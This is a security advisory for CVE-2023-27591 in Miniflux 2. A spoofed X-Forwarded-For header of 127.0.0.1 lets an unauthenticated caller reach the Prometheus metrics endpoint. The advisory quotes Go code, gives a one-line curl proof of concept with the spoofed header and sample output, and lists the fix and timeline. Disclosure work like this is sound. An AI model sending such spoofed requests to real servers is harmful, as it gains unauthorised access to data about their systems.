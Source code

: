 # Unauthenticated Prometheus metrics disclosure in Miniflux via IP spoofing

## Advisory Info

- Vendor: [Miniflux](https://github.com/miniflux)
- Product: [Miniflux 2](https://github.com/miniflux/v2)
- Affected Versions: >= 2.0.24 < 2.0.43
- Patched Versions: 2.0.43
- Vendor Advisory: [https://github.com/miniflux/v2/security/advisories/GHSA-3qjf-qh38-x73v](https://github.com/miniflux/v2/security/advisories/GHSA-3qjf-qh38-x73v)
- Vendor Publication Date: 2023-03-17

## Vulnerability Info

- Weakness: [CWE-290: Authentication Bypass by Spoofing](https://cwe.mitre.org/data/definitions/290.html)
- CVE: [CVE-2023-27591](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-27591)

## Summary

Since [v2.0.24](https://github.com/miniflux/v2/releases/tag/2.0.24), Miniflux can be [configured](https://miniflux.app/docs/configuration.html#metrics-collector) to expose a `/metrics` endpoint which is suitable for ingestion by [Prometheus](https://prometheus.io). This endpoint is only accessible on the loopback range (127.0.0.1/8) [by default](https://github.com/miniflux/v2/blob/b2fd84e0d376a3af6329b9bb2e772ce38a25c31c/config/options.go#L71).

The `isAllowedToAccessMetricsEndpoint` check in the `httpd` service [determines](https://github.com/miniflux/v2/blob/b2fd84e0d376a3af6329b9bb2e772ce38a25c31c/service/httpd/httpd.go#L233-L235) whether the caller is permitted to access the metrics endpoint [based on](https://github.com/miniflux/v2/blob/b2fd84e0d376a3af6329b9bb2e772ce38a25c31c/service/httpd/httpd.go#L225) the `ClientIP`:

```go
func isAllowedToAccessMetricsEndpoint(r *http.Request) bool {
    clientIP := net.ParseIP(request.ClientIP(r))
    for _, cidr := range config.Opts.MetricsAllowedNetworks() {
        _, network, err := net.ParseCIDR(cidr)
    // [snip]
        if network.Contains(clientIP) {
            return true
        }
    }
    return false
}
```

The `ClientIP` comes from the IP address [stored](https://github.com/miniflux/v2/blob/b2fd84e0d376a3af6329b9bb2e772ce38a25c31c/http/request/context.go#L113-L116) in the request context which is obtained at the [middleware level](https://github.com/miniflux/v2/blob/b2fd84e0d376a3af6329b9bb2e772ce38a25c31c/service/httpd/middleware.go#L18):

```go
func middleware(next http.Handler) http.Handler {
    return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
        clientIP := request.FindClientIP(r)
        ctx := r.Context()
        ctx = context.WithValue(ctx, request.ClientIPContextKey, clientIP)
    // [snip]
 }
```

The `FindClientIP` [method](https://github.com/miniflux/v2/blob/b2fd84e0d376a3af6329b9bb2e772ce38a25c31c/http/request/client_ip.go#L23) called by the middleware can be influenced by the `X-Forwarded-For` and `X-Real-Ip` request headers which are user-controllable:

```go
func FindClientIP(r *http.Request) string {
    headers := []string{"X-Forwarded-For", "X-Real-Ip"}
    for _, header := range headers {
    value := r.Header.Get(header)
    // [snip]
}
```

Since there are no `IsAuthenticated` or `IsAdminUser` checks in front of the metrics endpoint, issuing an unauthenticated HTTP request with the header `X-Forwarded-For: 127.0.0.1` to a Miniflux server with metrics enabled will pass the `isAllowedToAccessMetricsEndpoint` check and return the Prometheus metrics.

## Steps to Reproduce

1. Bring up an instance of Miniflux (herein `https://miniflux`) following the [installation instructions](https://miniflux.app/docs/installation.html) ensuring that the `METRICS_COLLECTOR` configuration option is enabled.

2. Run the following curl command from another host:

```bash
curl "https://miniflux/metrics" --header "X-Forwarded-For: 127.0.0.1"
```

3. Observe that the Prometheus metrics for the Miniflux instance are returned:

```bash
# [snip]
# HELP miniflux_broken_feeds Number of broken feeds
# TYPE miniflux_broken_feeds gauge
miniflux_broken_feeds 0
# HELP miniflux_db_connections_idle The number of idle connections
# TYPE miniflux_db_connections_idle gauge
miniflux_db_connections_idle 0
# HELP miniflux_db_connections_in_use The number of connections currently in use
# TYPE miniflux_db_connections_in_use gauge
miniflux_db_connections_in_use 0
# HELP miniflux_db_connections_max_idle_closed The total number of connections closed due to SetMaxIdleConns
# TYPE miniflux_db_connections_max_idle_closed gauge
miniflux_db_connections_max_idle_closed 0
# HELP miniflux_db_connections_max_idle_time_closed The total number of connections closed due to SetConnMaxIdleTime
# TYPE miniflux_db_connections_max_idle_time_closed gauge
miniflux_db_connections_max_idle_time_closed 0
# HELP miniflux_db_connections_max_lifetime_closed The total number of connections closed due to SetConnMaxLifetime
# TYPE miniflux_db_connections_max_lifetime_closed gauge
miniflux_db_connections_max_lifetime_closed 0
# HELP miniflux_db_connections_wait_count The total number of connections waited for
# TYPE miniflux_db_connections_wait_count gauge
miniflux_db_connections_wait_count 0
# HELP miniflux_db_open_connections The number of established connections both in use and idle
# TYPE miniflux_db_open_connections gauge
miniflux_db_open_connections 0
# HELP miniflux_users Number of users
# TYPE miniflux_users gauge
miniflux_users 0
# [snip]
```

## Impact

An unauthenticated user can retrieve Prometheus metrics from a publicly reachable Miniflux instance where the `METRICS_COLLECTOR` [configuration option](https://miniflux.app/docs/configuration.html#metrics-collector) is enabled and `METRICS_ALLOWED_NETWORKS` is set to 127.0.0.1/8 (default). The [available metrics](https://github.com/miniflux/v2/blob/b2fd84e0d376a3af6329b9bb2e772ce38a25c31c/metric/metric.go) contain statistical information about the Go environment and Miniflux database.

## Recommendations

If you run a Miniflux server with the `METRICS_COLLECTOR` configuration option enabled, you should update to Miniflux version 2.0.43 or above. You are also recommended to use HTTP basic authentication with the `METRICS_USERNAME` and `METRICS_PASSWORD` options to protect the metrics endpoint or run Miniflux behind a trusted reverse proxy.

## Timeline

- 2023-03-11: Vulnerability discovered
- 2023-03-11: Vulnerability reported to vendor
- 2023-03-12: Vendor acknowledged receipt of advisory
- 2023-03-12: Vendor committed fix ([PR #1744](https://github.com/miniflux/v2/pull/1744), [PR #1745](https://github.com/miniflux/v2/pull/1745))
- 2023-03-17: Vendor released fix ([v2.0.43](https://github.com/miniflux/v2/releases/tag/2.0.43))
- 2023-03-17: Vendor disclosed via [GitHub Security Advisory](https://github.com/miniflux/v2/security/advisories/GHSA-3qjf-qh38-x73v)
